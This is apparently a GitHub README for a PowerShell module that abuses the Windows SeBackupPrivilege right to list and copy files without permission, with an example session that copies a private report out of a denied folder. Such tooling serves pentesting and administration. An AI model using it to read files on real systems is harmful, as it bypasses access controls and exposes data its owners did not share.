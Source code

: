 # SeBackupPrivilege

On Windows, if a user has the "[Back up files and directories](http://technet.microsoft.com/en-us/library/cc787956.aspx)" right, he gets assigned the `SE_BACKUP_NAME`/`SeBackupPrivilege` [privilege](http://msdn.microsoft.com/en-us/library/windows/desktop/bb530716.aspx). Such privilege is disabled by default but when switched on it allows the user to access directories/files _that he doesn't own_ or _doesn't have permission to_. In MSDN's own words:

> This user right determines which users can bypass file and directory,
> registry, and other persistent object permissions for the purposes of
> backing up the system.

In order to exploit `SeBackupPrivilege` you have to:

- Enable the privilege.  
  This alone lets you traverse (`cd` into) any<sup>1</sup> directory, local or remote, and list (`dir`, `Get-ChildItem`) its contents.
- If you want to read/copy data out of a "normally forbidden" folder, you have to act as a backup software.
  The shell `copy` command won't work; you'll need to open the source file manually using `CreateFile` making sure to specify the `FILE_FLAG_BACKUP_SEMANTICS` flag.

This library exposes three PowerShell CmdLets that do just that.

## Example usage

```
PS C:\scripts> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\scripts> Import-Module .\SeBackupPrivilegeCmdLets.dll
PS C:\scripts> Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup
SeBackupPrivilege is disabled
PS C:\scripts> dir E:\V_BASE
Get-ChildItem : Access to the path 'E:\V_BASE' is denied.
At line:1 char:4
+ dir <<<<  E:\V_BASE
    + CategoryInfo          : PermissionDenied: (E:\V_BASE:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

PS C:\scripts> Set-SeBackupPrivilege
PS C:\scripts> Get-SeBackupPrivilege
SeBackupPrivilege is enabled
PS C:\scripts> dir E:\V_BASE # ...having enabled the privilege, this now works


    Directory: E:\V_BASE


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----        18/07/2013     13:04            Private

PS C:\scripts> cd E:\V_BASE\Private
PS E:\V_BASE\Private> dir


    Directory: E:\V_BASE\Private


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-----        05/07/2013     12:29     306435 report.pdf

PS E:\V_BASE\Private> Copy-FileSeBackupPrivilege .\report.pdf c:\temp\x.pdf -Overwrite
Copied 306435 bytes

PS E:\V_BASE\Private>
```

## Building/misc

The following dlls are compiled for x64, .NET Framework 2.0 . If they don't match your environment, you'll have to build your own; just import the project into [SharpDevelop](http://www.icsharpcode.net/opensource/sd/) and you should be good to go.

- [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)
- [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)

These resources have been extremely helpful when putting this stuff together:

- Stack Overflow: [How to detect if "Debug Programs" Windows privilege is set?](http://stackoverflow.com/questions/4880197/how-to-detect-if-debug-programs-windows-privilege-is-set)
- Stack Overflow: [Setting size of TOKEN_PRIVILEGES.LUID_AND_ATTRIBUTES array returned by GetTokenInformation](http://stackoverflow.com/questions/4349743/setting-size-of-token-privileges-luid-and-attributes-array-returned-by-gettokeni)
- [Adjusting Token Privileges in PowerShell](http://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/)
- [PInvoke.net](http://www.pinvoke.net/)

- - -

[1] Explicit denies should still block you, though...

